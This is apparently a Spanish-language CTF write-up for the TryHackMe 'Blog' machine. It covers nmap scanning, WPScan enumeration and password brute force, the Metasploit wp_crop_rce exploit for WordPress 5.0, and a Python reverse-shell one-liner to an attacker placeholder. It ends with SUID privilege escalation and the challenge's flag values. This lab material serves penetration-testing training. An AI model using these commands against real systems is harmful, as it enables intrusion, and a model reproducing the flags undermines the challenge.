


# Writeup: Blog

**Blog** es un desafío de nivel **Medio** de la plataforma **TryHackMe**. En este writeup, documento los pasos que seguí para obtener acceso al sistema, escalar privilegios y encontrar las 2 banderas: **user.txt** y **root.txt**.

---

## 📊 Datos Esenciales

  * **IP de la Máquina:** `10.10.232.42`
  * **Sistema Operativo:** `Linux`
  * **Tipo de Máquina:** `Web`
  * **Flags:** `user.txt`, `root.txt`.
  * **Tiempo de Resolución:** `75 min`

---

## 🕵️‍♂️ Fase 1: Reconocimiento y Enumeración

El primer paso fue realizar un escaneo de puertos para identificar los servicios activos en la máquina. Utilicé `nmap` con los siguientes parámetros para un escaneo de versiones y scripts:

```bash
nmap -p- --open -sS -sC -sV --min-rate 2000 -n -vvv -Pn 10.10.232.42 -oN escaneo
```

El escaneo inicial con **Nmap** confirmó que la máquina está en línea y reveló los siguientes puertos abiertos:

---

### Puertos Abiertos

  * **Puerto 22 (SSH)**
      * **Servicio:** OpenSSH 7.6p1 Ubuntu
  * **Puerto 80 (HTTP)**
      * **Servicio:** Apache httpd 2.4.29
      * **Título del sitio:** "Billy Joel's IT Blog – The IT blog"
      * **Detalles:** El sitio corre sobre **WordPress 5.0** y tiene un directorio de administración (`/wp-admin`) que está configurado para no ser rastreado por robots.
  * **Puerto 139 (netbios-ssn)**
      * **Servicio:** Samba smbd 3.X - 4.X
  * **Puerto 445 (netbios-ssn)**
      * **Servicio:** Samba smbd 4.7.6-Ubuntu
      * **Detalles:** El servicio Samba muestra el nombre de la máquina como **"BLOG"** y pertenece al grupo de trabajo **"WORKGROUP"**. La información de seguridad indica que el inicio de sesión de invitados (`guest`) está habilitado y la firma de mensajes está deshabilitada.

---

### Análisis del Sitio Web (Puerto 80)

Al navegar a la dirección IP (`10.10.232.42`), el sitio web no carga correctamente. Según la descripción del desafío, esto se debe a que el sitio web requiere que se resuelva un nombre de dominio específico.

Para solucionar este problema, se debe añadir una entrada al archivo **`/etc/hosts`** de la máquina atacante, mapeando el nombre de host `blog.thm` a la dirección IP de la máquina objetivo.

```bash
echo "10.10.232.42 blog.thm" | sudo tee -a /etc/hosts
```

Una vez que se añade esta línea, al navegar a `http://blog.thm` se accede al blog de WordPress, titulado "Billy Joel's IT Blog – The IT blog", como se detectó en el escaneo de Nmap.

---

### Búsqueda de Usuarios y Fuerza Bruta

Se utilizó la herramienta **WPScan** para enumerar usuarios y buscar vulnerabilidades en la instalación de WordPress.

```bash
wpscan --url http://blog.thm --enumerate u
```

WPScan identificó los usuarios **bjoel** y **kwhell**. Con estos nombres de usuario, se procedió a un ataque de fuerza bruta con una lista de contraseñas.

```bash
wpscan --url http://blog.thm --passwords /usr/share/wordlists/rockyou.txt --usernames bjoel,kwhell
```

---

## 💥 Fase 2: Explotación y Acceso Inicial

### Explotación y Obtención de Acceso

Este ataque fue exitoso, revelando la contraseña **`cutiepie1`** para el usuario **kwhell**. Estas credenciales nos sirvieron para explotar una vulnerabilidad específica en la versión de WordPress.

Tras buscar vulnerabilidades relacionadas con **WordPress 5.0**, se identificó y utilizó el *exploit* **`exploit/multi/http/wp_crop_rce`** de Metasploit. Este módulo aprovecha una vulnerabilidad en la función de recorte de imágenes para subir un *shell* al servidor.

Se configuraron las opciones del módulo con los datos obtenidos:

  - **`RHOSTS`**: La dirección IP de la máquina objetivo.

  - **`USERNAME`**: `kwhell`

  - **`PASSWORD`**: `cutiepie1`

  - **`LHOST`**: La dirección IP de nuestra máquina atacante.

Al ejecutar el *exploit* con estas credenciales, se logró comprometer la máquina y se obtuvo una sesión meterpreter con el usuario **`www-data`**.

---

### Obtención de la `Reverse Shell`

Una vez dentro con el usuario `www-data`, el siguiente paso es obtener una `reverse shell` para mayor comodidad y una **TTY completamente funcional**.

Desde la sesión de Meterpreter, se ejecutó el siguiente comando para enviar una `reverse shell` a la máquina atacante.

```bash
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<IP_ATACANTE>",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'
```

Este comando utiliza Python para establecer una conexión de retorno al puerto 443 de la máquina atacante, lo que nos da una `shell` básica pero funcional.

---

## 🔎 Fase 3: Post-Explotación y Enumeración del Sistema

### Tratamiento de la TTY para Mayor Comodidad

Para tener una terminal más interactiva y con funcionalidades como el autocompletado y el uso de flechas, se aplicó un tratamiento de TTY.

1.  Se ejecutó el comando `script /dev/null -c bash` en la `reverse shell`.

2.  Se presionó `Ctrl + Z` para suspender el proceso.

3.  En la terminal local, se ingresó `stty raw -echo; fg` para manejar la entrada y salida de la terminal.

4.  Dentro de la `shell`, se escribió `reset xterm` (aunque no se viera en la pantalla) para restablecer la terminal.

5.  Finalmente, se configuraron las variables de entorno para que la terminal se comportara como una `bash shell` completa.

<!-- end list -->

```bash
export TERM=xterm
export SHELL=bash
```

Con la TTY ahora funcional, se puede continuar con la fase de escalada de privilegios de manera más eficiente.

---

### Escalada de Privilegios

El primer paso en la escalada de privilegios es buscar binarios con el *bit* **SUID** activado. Estos binarios son clave porque permiten a un usuario de bajos privilegios ejecutar un comando con los permisos del propietario del archivo (en este caso, `root`).

El siguiente comando se usó para encontrar binarios SUID en la máquina:

```bash
find / -perm -u=s -type f 2>/dev/null
```

El resultado de la búsqueda reveló un binario interesante en `/usr/sbin`: **`checker`**. Este no es un binario estándar, lo que sugiere que fue creado específicamente para este desafío.

Para entender cómo explotar `checker`, se utilizó la herramienta `ltrace`, que mostró la interacción del binario con las variables de entorno. Se descubrió que el programa busca una variable llamada **`admin`** y que, si existe, eleva los privilegios y ejecuta una *shell*.

---

#### Explotación y Acceso como Root

Con esta información, el proceso de explotación fue directo:

1.  Se definió la variable de entorno `admin` con el valor `1` en la *shell* actual.

    ```bash
    export admin=1
    ```

2.  Se ejecutó el binario `checker` para activar su comportamiento vulnerable.

    ```bash
    /usr/sbin/checker
    ```

Esto resultó en la obtención de una nueva *shell* con los permisos del usuario `root`. La confirmación se realizó con el comando `whoami`, que devolvió `root` como respuesta.

---

### Búsqueda y Obtención de las Banderas

Con los privilegios de `root` ya obtenidos, el último paso fue localizar las dos banderas (`user.txt` y `root.txt`). Para ello, se utilizó el comando `find` en todo el sistema.

1.  **Encontrar `user.txt`**: El siguiente comando se usó para buscar el archivo `user.txt`.

    ```bash
    find / -name user.txt 2>/dev/null
    ```

    El archivo se encontró en `/media/usb/user.txt`. Se usó `cat` para ver el contenido de la bandera.

    ```
    c8421899aae571f7af486492b71a8ab7
    ```

2.  **Encontrar `root.txt`**: Con los permisos de `root`, se buscó el archivo `root.txt`.

    ```bash
    find / -name root.txt 2>/dev/null
    ```

    El archivo se encontró en `/root/root.txt`. Se usó `cat` para ver el contenido de la bandera.

    ```
    9a0b2b618bef9bfa7ac28c1353d9f318
    ```
---

## 🎉 Misión Cumplida: Conclusión

Con la obtención de las banderas **user.txt** y **root.txt**, la misión en la máquina **Blog** está completa. Este desafío de **TryHackMe** ha sido una excelente oportunidad para practicar una metodología de *pentesting* integral. Nos ha enseñado que incluso un sistema con una vulnerabilidad en una aplicación web, como WordPress, puede llevarnos a una escalada de privilegios inesperada y reveladora.

En este recorrido, hemos:

* **Reconocido y Enumerado:** Identificamos los puertos y servicios, analizando el sitio web para encontrar información clave y usuarios válidos.
* **Explotado:** Utilizamos un *exploit* de WordPress y una *reverse shell* para conseguir nuestro punto de entrada inicial en el sistema.
* **Escalado Privilegios:** Pasamos de un usuario de bajo privilegio (`www-data`) a `root` aprovechando un binario SUID poco común (`checker`), demostrando la importancia de la enumeración a fondo.

Cada paso nos acercó más a la solución, probando que la persistencia y un enfoque metódico son clave para el éxito en el mundo del *hacking*.

Hasta que nuestras terminales se encuentren de nuevo, la caza continúa.
